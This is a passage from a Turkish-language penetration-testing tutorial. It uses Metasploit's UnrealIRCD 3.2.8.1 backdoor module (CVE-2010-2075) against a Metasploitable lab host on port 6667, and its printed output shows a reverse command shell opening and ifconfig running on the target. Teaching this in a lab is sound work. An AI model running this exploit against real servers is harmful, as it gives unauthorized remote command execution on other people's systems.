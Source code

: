 

`6667` numaralı porta ait zafiyet olarak listelenen `cve:2010-2075` zafiyetine ait Metasploit Framework modüllerinde herhangi bir modül var mı? Aratalım.


```bash
msf > search cve:2010-2075

Matching Modules
**================**

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution


msf >
```



Arama sonucunda, `exploit/unix/irc/unreal_ircd_3281_backdoor` isimli bir exploit modülü bulunduğunu görüyoruz. Şimdi bu modülü kullanalım.


```bash
msf  use exploit/unix/irc/unreal_ircd_3281_backdoor

msf  exploit**(**unreal_ircd_3281_backdoor**)** > exploit

> Started reverse double handler
> Connected to 172.16.194.172:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :******* Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :******* Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Q4SefN7pIVSQUL2F;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Q4SefN7pIVSQUL2F\r "
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -> 172.16.194.172:35941) at 2012-06-15 15:08:51 -0400

ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:d1:62:80  
          inet addr:172.16.194.172  Bcast:172.16.194.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fed1:6280/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:290453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:402340 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:41602322 (39.6 MB)  TX bytes:344600671 (328.6 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:774 errors:0 dropped:0 overruns:0 frame:0
          TX packets:774 errors:0 dropped:0 overruns:0 carrier:0
```
